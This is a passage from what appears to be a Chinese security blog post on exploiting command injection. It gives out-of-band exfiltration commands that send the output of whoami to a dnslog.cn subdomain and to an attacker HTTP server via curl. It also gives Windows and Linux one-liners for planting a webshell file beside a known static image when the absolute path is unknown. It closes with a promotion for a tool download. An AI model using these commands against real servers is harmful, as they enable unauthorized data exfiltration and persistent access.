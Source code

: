 ping $(whoami).rg6u4i.dnslog.cn  
  
  
1.   
3.     Curl  
  
命令如下：  
  
curl http://x.x.x.x:8000/`whoami`  
  
  
  
  
写入webshell  
  
  
  
当我们要写webshell的时候，就必须要知道绝对路径，然后在实际情况下我们往往是都不知道路径的。那么如何在不知道路径的情况下写入webshell呢？  
  
思路是可以在网站上找到一个静态的资源，例如我们知道这个网站有一个logo.png，我们不需要知道它的绝对路径就可以通过下面的方式，在该图片路径下创建一个logo.png.php文件。  
  
  
Windows环境  
  
  
  
命令如下：  
  
for /r C:\%i  in  (logo.png) do @echo  "123456" > %i.php  
  
下面这张图可以看到已经成功写入 logo.png.php文件  
  
  
  
Linux环境  
  
  
  
  
命令如下：  
  
for i in `find /tmp -name "logo.png"`;
do echo "123456" >`basename $i`.php; done  
  
下面这张图可以看到已经成功写入 logo.png.php文件  
  
  
工具获取  
  
  
工具利用：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/WAyrRuvrubFaxRxWqk4WuNGIEiapFSTm1KQ9Miajpmub822yAYjeiaJPqFZgwpB7ibsAlHj1YAsRXy1fkpibA95lYJg/640?wx_fmt=jpeg&from=appmsg "")  
  
关注 安全圈子我最菜 公众号 回复 20240204 （后面不要加空格 加空格无法获取回复）获取工具下载链接  
  
本工具或文章来源于网络，若  
有侵权请联系作者删除，请在  
24  
小时内删除，请勿用于商业行为，自行查验是否具有后门，切勿相信软件内的广告！  
  
  
  
  
  
